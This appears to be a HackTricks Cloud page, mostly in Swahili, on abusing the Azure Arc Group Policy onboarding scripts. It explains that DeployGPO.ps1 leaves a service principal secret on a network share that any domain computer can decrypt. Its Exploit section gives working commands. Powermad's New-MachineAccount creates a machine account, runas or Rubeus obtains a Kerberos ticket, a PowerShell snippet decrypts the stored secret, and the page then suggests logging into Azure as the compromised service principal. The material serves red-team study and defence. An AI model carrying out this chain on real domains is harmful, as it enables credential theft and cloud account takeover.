 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc inaruhusu kuunganishwa kwa seva mpya za ndani (seva zilizounganishwa kwenye kikoa) ndani ya Azure Arc kwa kutumia mbinu ya Group Policy Object. Ili kuwezesha hili, Microsoft inatoa zana za kutekeleza zinazohitajika kwa ajili ya kuanzisha mchakato wa kuingiza. Ndani ya faili ya ArcEnableServerGroupPolicy.zip, skripti zifuatazo zinaweza kupatikana: DeployGPO.ps1, EnableAzureArc.ps1, na AzureArcDeployment.psm1.

Wakati inatekelezwa, skripti ya DeployGPO.ps1 inatekeleza hatua zifuatazo:

1. Inaunda Azure Arc Servers Onboarding GPO ndani ya kikoa cha ndani.
2. Inakopya skripti ya kuingiza ya EnableAzureArc.ps1 kwenye sehemu ya mtandao iliyotengwa kwa ajili ya mchakato wa kuingiza, ambayo pia ina pakiti ya installer ya Windows.

Wakati wa kuendesha skripti hii, wasimamizi wa mfumo wanahitaji kutoa vigezo viwili vikuu: **ServicePrincipalId** na **ServicePrincipalClientSecret**. Aidha, inahitaji vigezo vingine kama vile kikoa, FQDN ya seva inayohifadhi sehemu, na jina la sehemu. Maelezo zaidi kama vile kitambulisho cha mpangilio, kundi la rasilimali, na taarifa nyingine muhimu lazima pia zipewe kwa skripti.

Siri iliyosimbwa inaundwa katika saraka ya AzureArcDeploy kwenye sehemu iliyotajwa kwa kutumia usimbaji wa DPAPI-NG. Siri iliyosimbwa inahifadhiwa katika faili inayoitwa encryptedServicePrincipalSecret. Ushahidi wa hili unaweza kupatikana katika skripti ya DeployGPO.ps1, ambapo usimbaji unatekelezwa kwa kuita ProtectBase64 na $descriptor na $ServicePrincipalSecret kama ingizo. Maelezo ya descriptor yanajumuisha SID za Kundi la Kompyuta za Kikoa na Kiongozi wa Kikoa, kuhakikisha kwamba ServicePrincipalSecret inaweza kusimbwa tu na Kundi la Usalama la Viongozi wa Kikoa na Kompyuta za Kikoa, kama ilivyotajwa katika maelezo ya skripti.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Tuna masharti yafuatayo:

1. Tumefanikiwa kuingia kwenye mtandao wa ndani.
2. Tuna uwezo wa kuunda au kudhibiti akaunti ya kompyuta ndani ya Active Directory.
3. Tumegundua sehemu ya mtandao inayoshikilia saraka ya AzureArcDeploy.

Kuna njia kadhaa za kupata akaunti ya mashine ndani ya mazingira ya AD. Moja ya njia maarufu ni kutumia quota ya akaunti ya mashine. Njia nyingine inahusisha kuathiri akaunti ya mashine kupitia ACLs dhaifu au mipangilio mingine mbalimbali isiyo sahihi.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Mara tu akaunti ya mashine imepatikana, inawezekana kuthibitisha kwa kutumia akaunti hii. Tunaweza ama kutumia amri ya runas.exe na bendera ya netonly au kutumia pass-the-ticket na Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kwa kuwa na TGT ya akaunti yetu ya kompyuta iliyohifadhiwa kwenye kumbukumbu, tunaweza kutumia skripti ifuatayo kufungua siri ya huduma ya msingi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Vinginevyo, tunaweza kutumia [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Katika hatua hii, tunaweza kukusanya taarifa zilizobaki zinazohitajika kuungana na Azure kutoka kwa faili ya ArcInfo.json, ambayo imehifadhiwa kwenye sehemu ile ile ya mtandao kama faili ya encryptedServicePrincipalSecret. Faili hii ina maelezo kama: TenantId, servicePrincipalClientId, ResourceGroup, na mengineyo. Kwa kutumia taarifa hizi, tunaweza kutumia Azure CLI kuthibitisha kama service principal iliyoshambuliwa.

## Marejeleo

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
